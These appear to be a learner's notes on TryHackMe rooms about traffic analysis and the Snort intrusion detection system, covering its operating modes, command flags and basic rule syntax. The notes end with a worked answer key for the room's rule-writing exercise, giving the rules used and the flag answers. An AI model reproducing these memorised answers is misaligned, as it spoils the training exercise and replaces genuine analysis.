



# Network Security and Traffic Analysis

## **--Traffic Analysis Essentials--**

### _**Introduction**_
Network Security is a set of operations for protecting data, applications, devices and systems connected to the network. It is accepted as one of the significant subdomains of cyber security. It focuses on the system design, operation and management of the architecture/infrastructure to provide network accessibility, integrity, continuity and reliability. Traffic analysis (often called Network Traffic Analysis) is a subdomain of the Network Security domain, and its primary focus is investigating the network data to identify problems and anomalies. 

This room will cover the foundations of Network Security and Traffic analysis and introduce the essential concepts of these disciplines to help you step into Traffic/Packet Analysis. We suggest completing the "[Network Fundamentals](https://tryhackme.com/module/network-fundamentals)" module before starting working in this room.

### _**Network Security and Network Data**_
Network Security  

The essential concern of Network Security focuses on two core concepts: authentication and authorisation. There are a variety of tools, technologies, and approaches to ensure and measure implementations of these two key concepts and go beyond to provide continuity and reliability. Network security operations contain three base control levels to ensure the maximum available security management.

Base Network Security Control Levels:


There are two main approaches and multiple elements under these control levels. The most common elements used in network security operations are explained below.

The main approaches:


The key elements of Access Control:


The key elements of Threat Control:


Typical Network Security Management Operation is explained in the given table:


Managed Security Services  

Not every organisation has enough resources to create dedicated groups for specific security domains. There are plenty of reasons for this: budget, employee skillset, and organisation size could determine how security operations are handled. At this point, Managed Security Services (MSS) come up to fulfil the required effort to ensure/enhance security needs. MSS are services that have been outsourced to service providers. These service providers are called Managed Security Service Providers (MSSPs). Today, most MSS are time and cost effective, can be conducted in-house or outsourced, are easy to engage, and ease the management process. There are various elements of MSS, and the most common ones are explained below.


### _**Traffic Analysis**_
Traffic Analysis / Network Traffic Analysis  

Traffic Analysis is a method of intercepting, recording/monitoring, and analysing network data and communication patterns to detect and respond to system health issues, network anomalies, and threats. The network is a rich data source, so traffic analysis is useful for security and operational matters. The operational issues cover system availability checks and measuring performance, and the security issues cover anomaly and suspicious activity detection on the network. 

Traffic analysis is one of the essential approaches used in network security, and it is part of multiple disciplines of network security operations listed below:

- Network Sniffing and Packet Analysis (Covered in [**Wireshark room**](https://tryhackme.com/room/wiresharkthebasics))
- Network Monitoring (Covered in [**Zeek room**](https://tryhackme.com/room/zeekbro))
- Intrusion Detection and Prevention (Covered in [**Snort room**](https://tryhackme.com/room/snort))  
    
- Network Forensics (Covered in [**NetworkMiner room**](https://tryhackme.com/room/networkminer))
- Threat Hunting (Covered in [**Brim room**](https://tryhackme.com/room/brim))

There are two main techniques used in Traffic Analysis:


Benefits of the Traffic Analysis:

- Provides full network visibility.
- Helps comprehensive baselining for asset tracking.
- Helps to detect/respond to anomalies and threats.

Does the Traffic Analysis Still Matter?  

The widespread usage of security tools/services and an increasing shift to cloud computing force attackers to modify their tactics and techniques to avoid detection. Network data is a pure and rich data source. Even if it is encoded/encrypted, it still provides a value by pointing to an odd, weird or unexpected pattern/situation. Therefore traffic analysis is still a must-to-have skill for any security analyst who wants to detect and respond to advanced threats.

Now you know what Traffic Analysis is and how it operates. Now use the static site to simulate a traffic analysis operation and find the flags.

## **--Snort--**

### _**Introduction**_
This room expects you to be familiar with basic Linux command-line functionalities like general system navigation and Network fundamentals (ports, protocols and traffic data). The room aims to encourage you to start working with Snort to analyse live and captured traffic.

Before joining this room, we suggest completing the ['Network Fundamentals'](https://tryhackme.com/module/network-fundamentals) module. If you have general knowledge of network basics and Linux fundamentals, you will be ready to begin! If you feel you need assistance in the Linux command line, you can always refer to our "Linux Fundamentals" rooms (here [1](https://tryhackme.com/room/linuxfundamentalspart1) [2](https://tryhackme.com/room/linuxfundamentalspart2) [3](https://tryhackme.com/room/linuxfundamentalspart3)); 

SNORT is an **open-source, rule-based** Network Intrusion Detection and Prevention System **(NIDS/NIPS)**. It was developed and still maintained by Martin Roesch, open-source contributors, and the Cisco Talos team. 

**[The official description](https://www.snort.org/):** *"__Snort is the foremost Open Source Intrusion Prevention System (IPS) in the world. Snort IPS uses a series of rules that help define malicious network activity and uses those rules to find packets that match against them and generate alerts for users.__"*

### _**Interactive Material and VM**_

### _**Introduction to IDS/IPS**_
Before diving into Snort and analysing traffic, let's have a brief overview of what an Intrusion Detection System (IDS) and Intrusion Prevention System (IPS) is. It is possible to configure your network infrastructure and use both of them, but before starting to use any of them, let's learn the differences.  
  
**Intrusion Detection System (IDS)**

IDS is a passive monitoring solution for detecting possible malicious activities/patterns, abnormal incidents, and policy violations. It is responsible for generating alerts for each suspicious event. 

There are two main types of IDS systems;

- Network Intrusion Detection System (NIDS) - NIDS monitors the traffic flow from various areas of the network. The aim is to investigate the traffic on the entire subnet. If a signature is identified, an alert is created.
- Host-based Intrusion Detection System (HIDS) - HIDS monitors the traffic flow from a single endpoint device. The aim is to investigate the traffic on a particular device. If a signature is identified, an alert is created.

  
Intrusion Prevention System (IPS)

IPS is an active protecting solution for preventing possible malicious activities/patterns, abnormal incidents, and policy violations. It is responsible for stopping/preventing/terminating the suspicious event as soon as the detection is performed.

 **There are four main types of IPS systems;**

- Network Intrusion Prevention System (NIPS) - NIPS monitors the traffic flow from various areas of the network. The aim is to protect the traffic on the entire subnet. If a signature is identified, the connection is terminated.
- Behaviour-based Intrusion Prevention System (Network Behaviour Analysis - NBA) - Behaviour-based systems monitor the traffic flow from various areas of the network. The aim is to protect the traffic on the entire subnet. If a signature is identified, **the connection is terminated.**

Network Behaviour Analysis System works similar to NIPS. The difference between NIPS and Behaviour-based is; behaviour based systems require a training period (also known as "baselining") to learn the normal traffic and differentiate the malicious traffic and threats. This model provides more efficient results against new threats.  

The system is trained to know the "normal" to detect "abnormal". The training period is crucial to avoid any false positives. In case of any security breach during the training period, the results will be highly problematic. Another critical point is to ensure that the system is well trained to recognise benign activities.   

- Wireless Intrusion Prevention System (WIPS) - WIPS monitors the traffic flow from of wireless network. The aim is to protect the wireless traffic and stop possible attacks launched from there. If a signature is identified, the connection is terminated.
- Host-based Intrusion Prevention System (HIPS) - HIPS actively protects the traffic flow from a single endpoint device. The aim is to investigate the traffic on a particular device. If a signature is identified, **the connection is terminated.**

HIPS working mechanism is similar to HIDS. The difference between them is that **while HIDS creates alerts for threats,** **HIPS stops the threats by terminating the connection.  
**

  
Detection/Prevention Techniques

There are three main detection and prevention techniques used in IDS and IPS solutions;


Summary  

**Phew!** That was a long ride and lots of information. Let's summarise the overall functions of the IDS and IPS in a nutshell.

- **IDS** can identify threats but require user assistance to stop them.
- **IPS** can identify and block the threats with less user assistance at the detection time.  
    

**Now let's talk about Snort. [Here is the rest of the official description](https://www.snort.org/) of the snort;**

_"__Snort can be deployed inline to stop these packets, as well. Snort has three primary uses: As a packet sniffer like tcpdump, as a packet logger — which is useful for network traffic debugging, or it can be used as a full-blown network intrusion prevention system. Snort can be downloaded and configured for personal and business use alike."_  

SNORT is an open-source, rule-based Network Intrusion Detection and Prevention System (NIDS/NIPS). It was developed and still maintained by Martin Roesch, open-source contributors, and the Cisco Talos team. 

Capabilities of Snort:
- Live traffic analysis
- Attack and probe detection
- Packet logging
- Protocol analysis
- Real-time alerting
- Modules & plugins
- Pre-processors
- Cross-platform support! (Linux & Windows)

Snort has three main use models:  
- Sniffer Mode - Read IP packets and prompt them in the console application.
- Packet Logger Mode - Log all IP packets (inbound and outbound) that visit the network.
- NIDS (Network Intrusion Detection System)  and NIPS (Network Intrusion Prevention System) Modes - Log/drop the packets that are deemed as malicious according to the user-defined rules.

### _**First Interaction with Snort**_
The First Interaction with Snort

First, let's verify snort is installed. The following command will show you the instance version.

`snort -V`

Before getting your hands dirty, we should ensure our configuration file is valid.  

Here **"-T"** is used for testing configuration, and **"-c"** is identifying the configuration file **(snort.conf)**.  
Note that it is possible to use an additional configuration file by pointing it with **"-c"**.

`sudo snort -c /etc/snort/snort.conf -T`

Once we use a configuration file, snort got much more power! The configuration file is an all-in-one management file of the snort. Rules, plugins, detection mechanisms, default actions and output settings are identified here. It is possible to have multiple configuration files for different purposes and cases but can only use one at runtime.  

Note that every time you start the Snort, it will automatically show the default banner and initial information about your setup. You can prevent this by using the "**\-q"** parameter.


### _**Operation Mode 1: Sniffer Mode**_
**Let's run Snort in Sniffer Mode**

Like tcpdump, Snort has various flags capable of viewing various data about the packet it is ingesting.  

Sniffer mode parameters are explained in the table below;


Let's start using each parameter and see the difference between them. Snort needs active traffic on your interface, so we need to generate traffic to see Snort in action.  

To do this, use **the traffic-generator** script (find this in the Task-Exercise folder)  

  
Sniffing with parameter "-i"  

Start the Snort instance in **verbose mode (-v)** and **use the interface (-i)** "eth0"; `sudo snort -v-i eth0`

In case you have only one interface, Snort uses it by default. The above example demonstrates to sniff on the interface named "eth0". Once you simulate the parameter -v, you will notice it will automatically use the "eth0" interface and prompt it.

**  
Sniffing with parameter "-v"**  

Start the Snort instance in **verbose mode (-v)**; `sudo snort -v`

Now run the traffic-generator script as sudo and start **ICMP/HTTP traffic**. Once the traffic is generated, snort will start showing the  packets in verbosity mode as follows;

As you can see in the given output, verbosity mode provides tcpdump like output information. Once we interrupt the sniffing with CTRL+C, it stops and summarises the sniffed packets.  

  
Sniffing with parameter "-d"  

Start the Snort instance in **dumping packet data mode (-d)**; `sudo snort -d`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start showing the  packets in verbosity mode as follows;

As you can see in the given output, packet data payload mode covers the verbose mode and provides more data.  

  
Sniffing with parameter "-de"  

Start the Snort instance in **dump (-d)** and **link-layer header grabbing (-e)** mode; `snort -d -e`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start showing the  packets in verbosity mode as follows;

Sniffing with parameter "-X"  

Start the Snort instance in **full packet dump mode (-X)**; `sudo snort -X`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start showing the  packets in verbosity mode as follows;

Note that you can use the parameters both in combined and separated form as follows;**

- snort -v
- snort -vd
- snort -de
- snort -v -d -e
- snort -X

Make sure you understand and practice each parameter with different types of traffic and discover your favourite combination.

### _**Operation Mode 2: Packet Logger Mode**_
Let's run Snort in Logger Mode  

You can use Snort as a sniffer and log the sniffed packets via logger mode. You only need to use the packet logger mode parameters, and Snort does the rest to accomplish this.

Packet logger parameters are explained in the table below;


Let's start using each parameter and see the difference between them. Snort needs active traffic on your interface, so we need to generate traffic to see Snort in action.  

**  
Logfile Ownership**

Before generating logs and investigating them, we must remember the Linux file ownership and permissions. No need to deep dive into user types and permissions. The fundamental file ownership rule; **whoever creates a file becomes the owner of the corresponding file**.  

Snort needs superuser (root) rights to sniff the traffic, so once you run the snort with the "sudo" command, the "root" account will own the generated log files. Therefore you will need "root" rights to investigate the log files. There are two different approaches to investigate the generated log files;  
  

- Elevation of privileges **-** You can elevate your privileges to examine the files. You can use the "sudo" command to execute your command as a superuser with the following command `sudo command`. You can also elevate the session privileges and switch to the superuser account to examine the generated log files with the following command: `sudo su`

- Changing the ownership of files/directories - You can also change the ownership of the file/folder to read it as your user: `sudo chown username file` or `sudo chown username -R directory` The "-R" parameter helps recursively process the files and directories.

  
Logging with parameter "-l"  

First, start the Snort instance in packet logger mode; `sudo snort -dev -l .`

Now start ICMP/HTTP traffic with the traffic-generator script.  

Once the traffic is generated, Snort will start showing the packets and log them in the target directory. You can configure the default output directory in snort.config file. However, you can use the "-l" parameter to set a target directory. Identifying the default log directory is useful for continuous monitoring operations, and the "-l" parameter is much more useful for testing purposes.

The `-l .` part of the command creates the logs in the current directory. You will need to use this option to have the logs for each exercise in their folder.

`sudo snort -dev -l .`

Now, let's check the generated log file. Note that the log file names will be different in your case.

`ls .`

As you can see, it is a single all-in-one log file. It is a binary/tcpdump format log. This is what it looks like in the folder view.

Logging with parameter "-K ASCII"  

Start the Snort instance in packet logger mode; `sudo snort -dev -K ASCII`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, Snort will start showing the  packets in verbosity mode as follows;

`sudo snort -dev -K ASCII -l .`

Now, let's check the generated log file.

`ls .`

The logs created with "-K ASCII" parameter is entirely different. There are two folders with IP address names. Let's look into them.

`ls ./<IP>`

Once we look closer at the created folders, we can see that the logs are in ASCII and categorised format, so it is possible to read them without using a Snort instance.

In a nutshell, ASCII mode provides multiple files in human-readable format, so it is possible to read the logs easily by using a text editor. By contrast with ASCII format, binary format is not human-readable and requires analysis using Snort or an application like tcpdump.

Let's compare the ASCII format with the binary format by opening both of them in a text editor. The difference between the binary log file and the ASCII log file is shown below. (Left side: binary format. Right side: ASCII format).


Reading generated logs with parameter "-r"  

Start the Snort instance in packet reader mode; `sudo snort -r`

`sudo snort -r snort.log.<number>`

**Note that** Snort can read and handle the binary like output (tcpdump and Wireshark also can handle this log format). However, if you create logs with "-K ASCII" parameter, Snort will not read them. As you can see in the above output, Snort read and displayed the log file just like in the sniffer mode.

Opening log file with tcpdump.

`sudo tcpdump -r snort.log.<number> -ntc 10`

"-r" parameter also allows users to filter the binary log files. **You can filter the processed log to see specific packets with the "-r" parameter and Berkeley Packet Filters (BPF).** 

- `sudo snort -r logname.log -X`
- `sudo snort -r logname.log icmp`
- `sudo snort -r logname.log tcp`
- `sudo snort -r logname.log 'udp and port 53'`

The output will be the same as the above, but only packets with the chosen protocol will be shown. Additionally, you can specify the number of processes with the parameter "-n". **The following command will process only the first 10 packets:** `snort -dvr logname.log -n 10`

Please use the following resources to understand how the BPF works and its use.  

- [https://en.wikipedia.org/wiki/Berkeley\_Packet\_Filter](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter)
- [https://biot.com/capstats/bpf.html](https://biot.com/capstats/bpf.html)
- [https://www.tcpdump.org/manpages/tcpdump.1.html](https://www.tcpdump.org/manpages/tcpdump.1.html)

### _**Operation Mode 3: IDS/IPS**_
Snort in IDS/IPS Mode

Capabilities of Snort are not limited to sniffing and logging the traffic. IDS/IPS mode helps you manage the traffic according to user-defined rules.

**Note that** (N)IDS/IPS mode depends on the rules and configuration. **TASK-10** summarises the essential paths, files and variables. Also, **TASK-3** covers configuration testing. Here, we need to understand the operating logic first, and then we will be going into rules in **TASK-9**.  

  
Let's run Snort in IDS/IPS Mode  

NIDS mode parameters are explained in the table below;


Let's start using each parameter and see the difference between them. Snort needs active traffic on your interface, so we need to generate traffic to see Snort in action. To do this, use the traffic-generator script and sniff the traffic. 

**Once you start running IDS/IPS mode,** you need to use rules. As we mentioned earlier, we will use a pre-defined ICMP rule as an example. The defined rule will only generate alerts in any direction of ICMP packet activity.

`alert icmp any any <> any any  (msg: "ICMP Packet Found"; sid: 100001; rev:1;)`  

This rule is located in "/etc/snort/rules/local.rules".  

Remember, in this module, we will focus only on the operating modes. The rules are covered in TASK9&10. **Snort will create an "alert" file if the traffic flow triggers an alert.** **One last note;** once you start running IPS/IDS mode, the sniffing and logging mode will be semi-passive. However, you can activate the functions using the parameters discussed in previous tasks. **(-i, -v, -d, -e, -X, -l, -K ASCII)** If you don't remember the purpose of these commands, please revisit TASK4.

  
IDS/IPS mode with parameter "-c and -T"  

Start the Snort instance and test the configuration file. `sudo snort -c /etc/snort/snort.conf -T` This command will check your configuration file and prompt it if there is any misconfiguratioın in your current setting. You should be familiar with this command if you covered TASK3. If you don't remember the output of this command, **please revisit TASK4**.

  
IDS/IPS mode with parameter "-N"

Start the Snort instance and disable logging by running the following command: `sudo snort -c /etc/snort/snort.conf -N`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. This command will disable logging mode. The rest of the other functions will still be available (if activated).

The command-line output will provide the information requested with the parameters. So, if you activate verbosity (-v) or full packet dump (-X) you will still have the output in the console, but there will be no logs in the log folder.  

  
IDS/IPS mode with parameter "-D"  

Start the Snort instance in background mode with the following command: `sudo snort -c /etc/snort/snort.conf -D`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start processing the packets and accomplish the given task with additional parameters.

The command-line output will provide the information requested with the parameters. So, if you activate **verbosity (-v)** or **full packet dump (-X)** with **packet logger mode (-l)** you will still have the logs in the logs folder, but there will be no output in the console.

Once you start the background mode and want to check the corresponding process, you can easily use the "ps" command as shown below;

`ps -ef | grep snort`

If you want to stop the daemon, you can easily use the "kill" command to stop the process.

`sudo kill -9 <process id>`

Note that daemon mode is mainly used to automate the Snort. This parameter is mainly used in scripts to start the Snort service in the background. It is not recommended to use this mode unless you have a working knowledge of Snort and stable configuration.  

  
_IDS/IPS mode with parameter "-A"_

**Remember that there are several alert modes available in snort;**  

- console: Provides fast style alerts on the console screen.
- cmg: Provides basic header details with payload in hex and text format.
- **full:** Full alert mode, providing all possible information about the alert.  
    
- **fast:** Fast mode, shows the alert message, timestamp, source and destination ıp along with port numbers.
- **none:** Disabling alerting.  
    

In this section, only the **"console"** and **"cmg"** parameters provide alert information in the console. It is impossible to identify the difference between the rest of the alert modes via terminal. Differences can be identified by looking at generated logs. 

At the end of this section, we will compare the "full", "fast" and "none" modes. Remember that these parameters don't provide console output, so we will continue to identify the differences through log formats.  

  
_IDS/IPS mode with parameter "-A console"_

Console mode provides fast style alerts on the console screen. Start the Snort instance in **console** alert mode (-A console ) with the following command `sudo snort -c /etc/snort/snort.conf -A console`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

_IDS/IPS mode with parameter "-A cmg"_

Cmg mode provides basic header details with payload in hex and text format. Start the Snort instance in cmg alert mode (-A cmg ) with the following command `sudo snort -c /etc/snort/snort.conf -A cmg`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

**Let's compare the console and cmg outputs** before moving on to other alarm types. As you can see in the given outputs above, **console mode** provides basic header and rule information. **Cmg mode** provides full packet details along with rule information. 

  
_IDS/IPS mode with parameter "-A fast"_

Fast mode provides alert messages, timestamps, and source and destination IP addresses. **Remember, there is no console output in this mode.** Start the Snort instance in fast alert mode (-A fast ) with the following command `sudo snort -c /etc/snort/snort.conf -A fast`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

_IDS/IPS mode with parameter "-A full"_

Full alert mode provides all possible information about the alert. **Remember, there is no console output in this mode.** Start the Snort instance in full alert mode (-A full ) with the following command `sudo snort -c /etc/snort/snort.conf -A full`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

_IDS/IPS mode with parameter "-A none"_

Disable alerting. This mode doesn't create the alert file. However, it still logs the traffic and creates a log file in binary dump format. Remember, there is no console output in this mode. Start the Snort instance in none alert mode (-A none) with the following command `sudo snort -c /etc/snort/snort.conf -A none`

Now run the traffic-generator script as sudo and start ICMP/HTTP traffic. Once the traffic is generated, snort will start generating alerts according to provided ruleset defined in the configuration file.

_IDS/IPS mode: "Using rule file without configuration file"_

It is possible to run the Snort only with rules without a configuration file. Running the Snort in this mode will help you test the user-created rules. However, this mode will provide less performance.

`sudo snort -c /etc/snort/rules/local.rules -A console`

_IPS mode and dropping packets_

Snort IPS mode activated with \-Q --daq afpacket parameters. You can also activate this mode by editing snort.conf file. However, you don't need to edit snort.conf file in the scope of this room. Review the bonus task or snort manual for further information on daq and advanced configuration settings: `-Q --daq afpacket`

Activate the Data Acquisition (DAQ) modules and use the afpacket module to use snort as an IPS: `-i eth0:eth1`

Identifying interfaces note that Snort IPS require at least two interfaces to work. Now run the traffic-generator script as sudo and start ICMP/HTTP traffic.

`sudo snort -c /etc/snort/snort.conf -q -Q --daq afpacket -i eth0:eth1 -A console`

### _**Operation Mode 4: PCAP Investigation**_
Let's investigate PCAPs with Snort

Capabilities of Snort are not limited to sniffing, logging and detecting/preventing the threats. PCAP read/investigate mode helps you work with pcap files. Once you have a pcap file and process it with Snort, you will receive default traffic statistics with alerts depending on your ruleset.

Reading a pcap without using any additional parameters we discussed before will only overview the packets and provide statistics about the file. In most cases, this is not very handy. We are investigating the pcap with Snort to benefit from the rules and speed up our investigation process by using the known patterns of threats. 

Note that we are pretty close to starting to create rules. Therefore, you need to grasp the working mechanism of the Snort, learn the discussed parameters and begin combining the parameters for different purposes.

PCAP mode parameters are explained in the table below;


_Investigating single PCAP with parameter "-r"_

For test purposes, you can still test the default reading option with pcap by using the following command `snort -r icmp-test.pcap`

Let's investigate the pcap with our configuration file and see what will happen. `sudo snort -c /etc/snort/snort.conf -q -r icmp-test.pcap -A console -n 10`

If you don't remember the purpose of the parameters in the given command, please revisit previous tasks and come back again!

_Investigating multiple PCAPs with parameter "--pcap-list"_  

Let's investigate multiple pcaps with our configuration file and see what will happen. `sudo snort -c /etc/snort/snort.conf -q --pcap-list="icmp-test.pcap http2.pcap" -A console -n 10`

_Investigating multiple PCAPs with parameter "--pcap-show"_  

Let's investigate multiple pcaps, distinguish each one, and see what will happen. `sudo snort -c /etc/snort/snort.conf -q --pcap-list="icmp-test.pcap http2.pcap" -A console --pcap-show`

Investigate the **mx-1.pcap** file with the default configuration file.  

`sudo snort -c /etc/snort/snort.conf -A full -l . -r mx-1.pcap`

Investigate the mx-1.pcap file **with the second** configuration file.  

`sudo snort -c /etc/snort/snortv2.conf -A full -l . -r mx-1.pcap`

Investigate the **mx-2.pcap** file with the default configuration file.  

`sudo snort -c /etc/snort/snort.conf -A full -l . -r mx-2.pcap`

Investigate the mx-2.pcap and mx-3.pcap files with the default configuration file.  

`sudo snort -c /etc/snort/snort.conf -A full -l . --pcap-list="mx-2.pcap mx-3.pcap"`

### _**Snort Rule Structure**_
**Let's Learn Snort Rules!**

Understanding the Snort rule format is essential for any blue and purple teamer.  The primary structure of the snort rule is shown below;

- The following rule will generate an alert for each ICMP packet processed by Snort;


Each rule should have a type of action, protocol, source and destination IP, source and destination port and an option. Remember, Snort is in passive mode by default. So most of the time, you will use Snort as an IDS. You will need to start **"inline mode" to turn on IPS mode.** But before you start playing with inline mode, you should be familiar with Snort features and rules.  

The Snort rule structure is easy to understand but difficult to produce. You should be familiar with rule options and related details to create efficient rules. It is recommended to practice Snort rules and option details for different use cases.

We will cover the basic rule structure in this room and help you take a step into snort rules. You can always advance your rule creation skills with different rule options by practising different use cases and studying rule option details in depth. We will focus on two actions; **"alert"** for IDS mode and **"reject"** for IPS mode.

Rules cannot be processed without a header. Rule options are "optional" parts. However, it is almost impossible to detect sophisticated attacks without using the rule options.


**IP and Port Numbers**

These parameters identify the source and destination IP addresses and associated port numbers filtered for the rule.


Direction

The direction operator indicates the traffic flow to be filtered by Snort. The left side of the rule shows the source, and the right side shows the destination.

- **\->** Source to destination flow.
- **<>** Bidirectional flow

Note that there is no "<-" operator in Snort.


There are three main rule options in Snort;  

- General Rule Options - Fundamental rule options for Snort. 
- Payload Rule Options - Rule options that help to investigate the payload data. These options are helpful to detect specific payload patterns.
- Non-Payload Rule Options - Rule options that focus on non-payload data. These options will help create specific patterns and identify network issues.

**General Rule Options**


**Payload Detection Rule Options**


**Non-Payload Detection Rule Options**

There are rule options that focus on non-payload data. These options will help create specific patterns and identify network issues.


Remember, once you create a rule, it is a local rule and should be in your "local.rules" file. This file is located under "/etc/snort/rules/local.rules". A quick reminder on how to edit your local rules is shown below.

`sudo gedit /etc/snort/rules/local.rules`

Note that there are some default rules activated with snort instance. These rules are deactivated to manage your rules and improve your exercise experience. For further information, please refer to the TASK-10 or [Snort manual](http://manual-snort-org.s3-website-us-east-1.amazonaws.com/).  

By this point, we covered the primary structure of the Snort rules. Understanding and practicing the fundamentals is suggested before creating advanced rules and using additional options.

Wow! We have covered the fundamentals of the Snort rules! Now, use the attached VM and navigate to the Task-Exercises/Exercise-Files/TASK-9 folder to answer the questions! Note that you can use the following command to create the logs in the **current directory: `-l .`**

Write a rule to filter **IP ID "35369"** and run it against the given pcap file. What is the request name of the detected packet? `snort -c local.rules -A full -l . -r task9.pcap`
- `alert ip any any <> any any (msg: "IP Packet found";id:35369; sid:1000001; rev:1;)`
- `cat alert`
- TIMESTAMP REQUEST

Create a rule to filter packets with Syn flag and run it against the given pcap file. What is the number of detected packets?
- `alert tcp any any -> any any (msg: "Flags Found"; flags:S; sid:1000001; rev:1;)`
- 1

Clear the previous log and alarm files and deactivate/comment out the old rule.

Write a rule to filter packets with Push-Ack flags and run it against the given pcap file. What is the number of detected packets?
- `alert tcp any any -> any any (msg: "Flags Found"; flags:PA; sid:1000001; rev:1;)`
- 216

Clear the previous log and alarm files and deactivate/comment out the old rule.

Create a rule to filter packets with the same source and destination IP and run it against the given pcap file. What is the number of detected packets?
- `alert ip any any -> any any (msg: "Same IP Found"; sameip; sid:1000001; rev:1;)` This one didn't work added the next 2 for the correct answer
- `alert tcp any any -> any any (msg: "Same IP Found"; sameip; sid:1000001; rev:1;)`
- `alert udp any any -> any any (msg: "Same IP Found"; sameip; sid:1000002; rev:1;)`
- 10

Case Example - An analyst modified an existing rule successfully. Which rule option must the analyst change after the implementation?
- rev

### _**Snort2 Operation Logic: Points to Remember**_
**P**oints to Remember

**Main** Components of Snort

- **Packet Decoder -** Packet collector component of Snort. It collects and prepares the packets for pre-processing. 
- **Pre-processors -** A component that arranges and modifies the packets for the detection engine.
- **Detection Engine -** The primary component that process, dissect and analyse the packets by applying the rules. 
- Logging and Alerting - Log and alert generation component.
- Outputs and Plugins - Output integration modules (i.e. alerts to syslog/mysql) and additional plugin (rule management detection plugins) support is done with this component. 

**There are three types of rules available for snort**

- Community Rules - Free ruleset under the GPLv2. Publicly accessible, no need for registration.
- Registered Rules - Free ruleset (requires registration). This ruleset contains subscriber rules with 30 days delay.
- Subscriber Rules (Paid) - Paid ruleset (requires subscription). This ruleset is the main ruleset and is updated twice a week (Tuesdays and Thursdays).

You can download and read more on the rules [here](https://www.snort.org/downloads).

**Note:** Once you install Snort2, it automatically creates the required directories and files. However, if you want to use the community or the paid rules, you need to indicate each rule in the snort.conf file.

